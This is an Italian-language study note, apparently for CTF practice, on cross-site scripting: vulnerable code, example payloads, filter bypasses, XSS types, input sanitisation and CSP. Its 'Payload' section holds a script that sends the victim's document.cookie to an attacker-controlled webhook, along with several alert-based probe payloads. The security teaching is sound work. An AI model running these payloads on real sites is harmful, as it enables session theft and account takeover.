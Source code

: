 # Cross Site Scripting

Vulnerabilità di sicurezza web che consente a un attaccante di iniettare script (solitamente JavaScript) nelle pagine web visualizzate dagli utenti. 
Questi script possono essere eseguiti nel contesto del browser dell'utente vittima, consentendo all'attaccante di rubare informazioni sensibili, assumere il controllo dell'account dell'utente ecc...

# Come evitarlo

Avviene quando l'input di un utente non viene sanificato (ad esempio attraverso [DOMPurify](https://github.com/cure53/DOMPurify) ) e viene inserito in una pagina.
L'attack surface è enorme, in quanto ogni possibile modo di ottenere l'input da un utente potrebbe risultare in un XSS, l'importante è che gli input vengano sanificati prima di essere reindirizzati

Esempi di codice vulnerabili:

```
document.write('<p>I tuoi cookie sono: ' + document.cookie + '</p>');

document.getElementById('message').innerText = `Welcome, ${user.displayName}.`;

var search = document.getElementById('search').value;
var results = document.getElementById('results');
results.innerHTML = 'You searched for: ' + search;

```
# Payload

[XSS Cheat Sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

Payload di base che ruba il cookie di un utente e lo invia al tuo webhook:

```

<script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>

```
Altri payload di esempio (per far capire che ne esistono di infiniti) tramite gli eventi dei tag html:

```
${alert(1)}

onerror=alert;throw 1

'-alert(document.domain)-'
';alert(document.domain)//  per uscire da stringhe precedenti, cercate sempre di uscire dal contesto precedente
"alert(document.domain)

PS potete usare il protocollo javascript:alert(1) per eseguire XSS tramite l'url
<a href="javascript:alert('PWNED');">

```
Usiamo alert o print perchè ci permettono al volo di vedere che abbiamo una XSS. Se viene eseguita una alert allora potete eseguire quello che volete.

# Bypass
In questi casi è importante capire (sopratutto nelle CTF) che tipo di bypass bisogna effettuare, può capitare che vengano tolte le parentesi, questo non è un problema perchè si possono eseguire script con i backtick:

```
alert`1`
```
Dato un certo blocco è molto probabile che voi riusciate a trovare un metodo per rendere lo script eseguibile, basta saperlo cercare. (ATTENZIONE all'header CSP nelle richieste)

# Tipi di XSS

XSS può essere Reflected, Stored o DOM Based, in base al modo in cui viene salvato/eseguito l' XSS.
Trovi di più su PortSwigger

# Sicurezza Sanificazione

Esistono delle funzioni per sanificare l'input, le piu comuni sono : 

```
htmlentities
ENT_QUOTES
```
Ma non è detto che bastino. Visitate le best practice nella doc del vostro linguaggio/framework e testate il sito per capire se la sanificazione è stata effettuata correttamente.

# Sicurezza CSP

Il Content Security Policy è una delle misure di sicurezza che, se ben configurata, permette di evitare l'esecuzione di XSS.
Ovviamente il must rimane la sanificazione, ma potremmo usare il CSP come ulteriore misura di sicurezza.
Trovate la sua spiegazione ,ovviamente, su PortSwigger e una versione da "Developer" qui: 

[CSP](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)

Attenzione alle librerie che importante, anche il CSS può portare al bypass del CSP, è facile che sia mal configurato.
